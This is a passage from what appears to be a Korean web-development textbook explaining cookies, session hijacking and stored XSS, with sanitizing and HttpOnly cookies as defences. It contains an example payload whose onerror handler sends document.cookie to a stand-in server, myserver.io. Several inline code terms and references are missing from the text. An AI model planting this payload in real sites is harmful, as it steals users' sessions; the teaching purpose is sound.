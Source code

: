 Chrome이나 Firefox 등의 브라우저에서도 웹 서버의 동작을 확인해본다. 각 브라우저의 개발자 도구에서는 쿠키값을 확인할 수 있는데, \와 같이 개발자 도구의 Application 탭이나 Storage 탭을 이용하여 브라우저(클라이언트)가 저장하는 쿠키의 값을 확인해본다.

\subsection*{Cross-Site Scripting (XSS)}

앞에서 언급한 바와 같이 쿠키를 이용한 인증 방식은 구조적으로 보안 문제를 가지고 있으며, 세션 방식 역시 이 문제에서 완전히 자유롭지 못하다. 예를 들어 공격자가 A라는 사용자가 서버와의 통신을 위해 저장한 쿠키에 포함된 세션 ID를 탈취하고 이를 이용하여 HTTP 요청을 보내면 서버는 공격자를 사용자 A로 인식한다.

쿠키를 탈취하는 여러 방법 중 가장 기초적인 방법은 Cross-Site Scripting(XSS)이다. 공격자는 다른 사용자의 쿠키값을 공격자의 서버로 전송하는 악성 스크립트를 HTML 문서에 삽입하여 해당 문서를 열람한 사용자의 쿠키를 탈취한다. 이러한 공격은 대체로 게시글 등록 기능, 특히 HTML 작성 기능을 통해 주로 발생하며 악성 스크립트를 포함한 게시글을 열람한 사용자는 공격자에게 쿠키를 탈취당하게 된다.

\begin{codeenv}{code:xss-example}{Simple Example of XSS}\begin{verbatim}
<p>Welcome!</p>
<img src="#"
     onerror="location.href=$`http://myserver.io/get_cookie?cookie=${document.cookie}`">
\end{verbatim}
\end{codeenv}

\은 XSS 공격의 간단한 예시로, 공격자는 이러한 내용의 글을 등록하여 서버의 DB에 저장한다. 이후 다른 사용자가 이 게시물을 열람하기 위해 요청을 보내면 이 코드가 포함된 HTML 문서를 응답으로 받게되며, 렌더링 과정에서  태그의 에 해당하는 링크가 존재하지 않으므로  속성의 JS 코드가 실행된다.  객체에는 그 HTML 문서를 요청하는데 사용된 쿠키가 저장되어 있으므로 myserver.io라는 서버에 쿠키값을 그대로 전송하게 된다.

이렇게 XSS는 공격자 입장에서는 공격하기 쉽고, 개발자 입장에서는 방어하기 힘들며, 일반 사용자 입장에서는 당하기 쉽고 당했는지도 알기 힘든 공격 방식이다. 이로 인해 사용자가 다른 웹 사이트에 접속하려고 할 때 신뢰할 수 있는 사이트에만 접속하라는 메시지를 띄우는 웹 사이트도 있다.

웹 서버 개발자는 XSS 공격을 반드시 방어하여야 한다. 사용자로부터 들어오는 입력값 중 게시글과 같이 DB에 저장된 후 다른 사용자에게 보여지는 입력값을 검증하여, XSS가 발생할 수 있는 부분을 제거해야 하며, 이러한 작업을 sanitize(소독)라고 한다. 다행히도 이러한 sanitize 작업을 수행해주는 모듈이 많이 개발되어 있어 개발자는 이러한 모듈을 적극 활용하여 XSS 공격을 예방할 수 있다. 또한, 궁극적인 방어 방법은 아니지만 쿠키를 로 설정하여  객체를 통해 쿠키값에 접근할 수 없게 할 수도 있다. 앞의 \는  쿠키를 자동으로 추가하며, \과 \를 통해 확인할 수 있다.
